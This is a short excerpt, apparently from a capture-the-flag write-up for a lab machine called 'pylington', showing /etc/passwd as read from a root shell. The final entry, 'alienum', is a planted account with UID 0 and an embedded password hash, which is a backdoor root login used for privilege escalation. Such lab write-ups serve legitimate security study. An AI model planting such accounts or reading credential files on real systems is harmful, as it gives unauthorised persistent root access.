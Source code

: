 The `/etc/passwd` looks like this :

```
[root@archlinux secret_stuff]# cat /etc/passwd
root:x:0:0::/root:/bin/bash
bin:x:1:1::/:/usr/bin/nologin
daemon:x:2:2::/:/usr/bin/nologin
mail:x:8:12::/var/spool/mail:/usr/bin/nologin
ftp:x:14:11::/srv/ftp:/usr/bin/nologin
http:x:33:33::/srv/http:/usr/bin/nologin
nobody:x:65534:65534:Nobody:/:/usr/bin/nologin
dbus:x:81:81:System Message Bus:/:/usr/bin/nologin
systemd-journal-remote:x:981:981:systemd Journal Remote:/:/usr/bin/nologin
systemd-network:x:980:980:systemd Network Management:/:/usr/bin/nologin
systemd-oom:x:979:979:systemd Userspace OOM Killer:/:/usr/bin/nologin
systemd-resolve:x:978:978:systemd Resolver:/:/usr/bin/nologin
systemd-timesync:x:977:977:systemd Time Synchronization:/:/usr/bin/nologin
systemd-coredump:x:976:976:systemd Core Dumper:/:/usr/bin/nologin
uuidd:x:68:68::/:/usr/bin/nologin
dhcpcd:x:975:975:dhcpcd privilege separation:/:/usr/bin/nologin
py:x:1000:1000::/home/py:/bin/bash
git:x:974:974:git daemon user:/:/usr/bin/git-shell
redis:x:973:973:Redis in-memory data structure store:/var/lib/redis:/usr/bin/nologin
alienum:$1$OFv8605C$Ijg./7PjFUq2HdzInVpFS1:0:0::/root:/bin/bash
```

![image]( /assets/img/pylington/10.PNG)

